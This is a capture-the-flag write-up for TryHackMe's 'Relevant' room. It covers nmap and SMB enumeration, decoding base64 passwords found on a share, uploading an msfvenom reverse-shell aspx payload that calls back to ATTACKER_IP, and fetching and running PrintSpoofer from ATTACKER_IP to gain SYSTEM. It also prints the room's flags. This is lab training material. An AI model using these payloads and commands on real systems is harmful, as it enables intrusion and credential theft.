

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Now, the "roleplay" part of this room is quite nice to have. i.e. the scope is provided in very clear terms. So, following that, let's do some recon:
```shell-session
# Stealth port scan
$ sudo nmap -sS -p--vv -oN nmap_scan.txt TARGET_IP

PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49663/tcp open  unknown       syn-ack ttl 127
49667/tcp open  unknown       syn-ack ttl 127
49669/tcp open  unknown       syn-ack ttl 127


# Service scan
$ sudo nmap -sV -p80,135,139,445,3389,49663,49667,49669 -vv -oN nmap_service_scan.txt TARGET_IP

PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
49663/tcp open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows


# Scan using the "vuln" script
$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for TARGET_IP
Host is up, received echo-reply ttl 127 (0.22s latency).
Scanned at 2023-02-20 21:23:21 IST for 688s
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
135/tcp  open  msrpc         syn-ack ttl 127
139/tcp  open  netbios-ssn   syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
```

There's a lot of useful information in these scans. Most notable, it's vulnerable to [`MS17-010`](https://en.wikipedia.org/wiki/EternalBlue) i.e. the eternal blue vulnerability. Let's exploit this to gain some initial foothold. Before we move on though, let's have a look at the SMB service running on the server and try to make use of that to gain some more information:

```shell-session
$ smbclient -L TARGET_IP -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      

# Looking into the last share: nt4wrksv
$ smbclient '\\TARGET_IP\nt4wrksv' 
Password for [WORKGROUP\novusedge]: randomstuff
smb: \> ls
  .                                   D        0  Sun Jul 26 03:16:04 2020
  ..                                  D        0  Sun Jul 26 03:16:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

                7735807 blocks of size 4096. 5136641 blocks available
smb: \> get passwords.txt
smb: \> quit
$ cat passwords.txt     
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

Looks like the values are encoded, let's try to decode them:
```shell-session
$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d 
Bob - !P@$$W0rD!123

$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d 
Bill - Juw4nnaM4n420696969!$$$
```

Well, now that we have passwords for two users: `Bob` and `Bill`; we can now try to log into the machine using these credentials. 

## Gaining Access

First, we generate a reverse shell to use and upload to the machine using the `smbclinet` session:

```shell-session
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3377 bytes
Saved as: rev.aspx

$ smbclient '\\TARGET_IP\nt4wrksv' 
Password for [WORKGROUP\novusedge]:
smb: \> put rev.aspx 
putting file rev.aspx as \rev.aspx (6.8 kb/s) (average 6.8 kb/s)
```

Now, we already know of the Microsoft IIS service running on the machine, we can try and load this `aspx` file from there, thus spawning the reverse shell:



On our machine:
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 49875
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>

```


Now that we're in, we can try and get the user flag:
```shell-session
C:\> cd C:/Users/Bob/Desktop
C:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob\Desktop

07/25/2020  01:04 PM    <DIR>          .
07/25/2020  01:04 PM    <DIR>          ..
07/25/2020  07:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,037,912,064 bytes free

C:\Users\Bob\Desktop> type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

>  User Flag
> 
> Answer: `THM{fdk4ka34vk346ksxfr21tg789ktf45}` 


Now... we move onto privilege escalation:

## Privilege Escalation

Let's check some information before we proceed:
```shell-session
C:\Users\Bob\Desktop>whoami
whoami
iis apppool\defaultapppool

C:\Users\Bob\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Bob\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

As is seen, the user has `SeImpersonatePrivilege`, `SeCreateGlobalPrivilege`, `SeChangeNotifyPrivilege` privileges. We can use the [`PrintSpoof` exploit](https://github.com/itm4n/PrintSpoofer) to get admin privileges:

```shell-session
C:\Users\Public\Documents>powershell
powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Public\Documents> wget "http://ATTACKER_IP:8080/PrintSpoofer.exe" -O printspoofer.exe
PS C:\Users\Public\Documents> ./printspoofer.exe -i -c cmd
./printspoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```

Done!

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

**NOTE**: For this room and some more, I'll also be attempting to write a professional report of the audit I performed on the machine as if it's an actual assignment given to be by a client. If you do wish to see it, please check the repository. Cheers!

---

- Author: Aliasgar Khimani
- Room: [Relevant by TheMayor](https://tryhackme.com/room/relevant)
